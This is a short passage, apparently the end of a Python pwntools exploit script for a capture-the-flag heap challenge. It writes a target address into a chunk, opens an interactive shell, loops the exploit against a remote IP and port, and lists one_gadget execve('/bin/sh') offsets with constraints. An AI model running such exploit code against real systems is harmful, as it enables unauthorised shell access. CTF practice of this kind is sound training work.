 ```python
	# gdb.attach(sh,"b *0x4013a8 ")
	add(0x20,p64(0x40150f))
	sh.interactive()

if __name__ =="__main__":
	while 1:
		pwn("119.23.255.127",48948,0)
	
"""
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
  
  0x7f71e1469c7e
  0x7f71e1469c81
0x7f71e1469c84
"""
```

